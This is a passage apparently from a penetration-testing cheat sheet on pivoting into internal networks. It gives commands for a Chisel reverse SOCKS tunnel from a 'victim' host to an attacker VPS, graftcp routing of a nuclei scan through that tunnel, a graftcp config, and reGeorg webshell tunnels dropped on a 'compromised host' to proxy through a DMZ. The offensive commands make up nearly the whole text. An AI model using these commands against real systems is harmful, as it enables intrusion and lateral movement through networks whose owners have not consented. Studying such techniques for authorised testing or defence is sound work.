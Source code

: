 ```ps1
# https://github.com/hmgle/graftcp

# Create a SOCKS5, using Chisel or another tool and forward it through SSH
(attacker) $ ssh -fNT -i /tmp/id_rsa -L 1080:127.0.0.1:1080 root@IP_VPS
(vps) $ ./chisel server --tls-key ./key.pem --tls-cert ./cert.pem -p 8443 -reverse 
(victim 1) $ ./chisel client --tls-skip-verify https://IP_VPS:8443 R:socks 

# Run graftcp and specify the SOCKS5
(attacker) $ graftcp-local -listen :2233 -logfile /tmp/toto -loglevel 6 -socks5 127.0.0.1:1080
(attacker) $ graftcp ./nuclei -u http://172.16.1.24
```

Simple configuration file for graftcp

```py
# https://github.com/hmgle/graftcp/blob/master/local/example-graftcp-local.conf
## Listen address (default ":2233")
listen = :2233
loglevel = 1

## SOCKS5 address (default "127.0.0.1:1080")
socks5 = 127.0.0.1:1080
# socks5_username = SOCKS5USERNAME
# socks5_password = SOCKS5PASSWORD

## Set the mode for select a proxy (default "auto")
select_proxy_mode = auto
```

## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg), the successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

Drop one of the following files on the server:

* tunnel.ashx
* tunnel.aspx
* tunnel.js
* tunnel.jsp
* tunnel.nosocket.php
* tunnel.php
* tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # the socks proxy will be on port 8080

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -v , --verbose       Verbose output[INFO|DEBUG]
```
